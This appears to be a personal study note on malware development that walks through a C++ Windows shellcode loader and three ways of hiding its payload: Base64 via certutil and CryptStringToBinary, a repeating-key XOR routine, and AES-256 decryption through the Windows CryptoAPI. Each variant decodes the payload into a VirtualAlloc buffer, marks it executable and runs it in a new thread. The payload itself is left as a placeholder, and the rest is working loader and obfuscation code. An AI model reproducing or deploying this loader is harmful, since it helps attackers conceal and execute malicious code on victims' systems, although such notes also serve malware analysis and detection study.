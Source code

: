 ```yaml
---
title: Notes | Encoding and Encryption
author: Zeropio
date: 2023-01-29
categories: [Notes, Malware]
tags: [malware]
permalink: /notes/malware/encoding-encryption
---
```


# Base64

For a Base64 encoding we will initialize the file and create the payload base64 encoded:
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

unsigned char calc_payload[] = "<BASE64 PAYLOAD>";
unsigned int calc_len = sizeof(calc_payload);
```

If we want to start an executable as a payload we can use the built-in function in Windows `certutil`. Take the binary and encoded it as base64:
```console
C:\Users\Zeropio>certutil -encode <BINARY> <OUTPUT FILE>
```

The `main` function will be the usual one:
```cpp

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	// Allocate new memory buffer for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Decode the payload back to binary form
	DecodeBase64((const BYTE *)calc_payload, calc_len, (char *) exec_mem, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, execute!
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

But with one difference, the `DecodeBase64` function. This will be declared before as:
```cpp
int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}
```

---

# XOR

The structure of the code will be the same, but the payload will be delcared **inside** `main`:
```cpp
	unsigned char calc_payload[] = <ENCODED PAYLOAD>
	unsigned int calc_len = sizeof(calc_payload);
	char key[] = "<KEY>";
```

And the `DecodeBase64` will be replaced by:
```cpp
XOR((char *) calc_payload, calc_len, key, sizeof(key));
```

This function will be:
```cpp
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
	int j;
	
	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}
```

---

# AES 

The only two changes in the code with XOR will be the function, instead of `XOR` it will be `AESDecrypt`:
```cpp
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}
```

Also, the payload will be:
```cpp
	char key[] = <ARRAY KEY>
	unsigned char calc_payload[] = <ENCODED PAYLOAD>
	unsigned int calc_len = sizeof(calc_payload);
```









